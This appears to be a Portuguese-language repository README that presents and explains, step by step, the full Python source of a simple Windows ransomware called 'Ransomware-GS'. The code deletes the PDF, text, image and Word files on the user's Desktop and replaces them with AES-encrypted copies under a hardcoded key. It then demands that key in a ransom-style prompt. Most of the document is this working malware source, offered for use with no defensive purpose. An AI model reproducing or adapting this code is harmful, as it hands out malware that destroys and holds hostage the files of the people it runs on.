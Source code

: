 # Ransomware-GS
 Descrição do funcionamento do ransomware.
 
 
Esse ransomware foi feito para funcionar em windows.


 Primeiramente precisamos fazer os imports necessários 
 
 
import os  # sistema operacional


import glob  # busca os arquivos


import time


import pyaes  # biblioteca de criptografia aes

 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for files in lst_arqui:
        for format_file in glob.glob(files):
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')  # rb = read binary e wb = write binary
            file_data = f.read()
            f.close()
 
            os.remove(f'{desktop}\\{format_file}')
            key = b"1ab2c3e4f5g6h7i8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(file_data)
            # Salvando arquivo novo (.ransomencrypter)
            new_file = format_file + ".ransomencrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for file in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)  # gera a decriptografia
            decrypt_data = daes.decrypt(file_data)
 
            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]
 
            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
 
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida.')


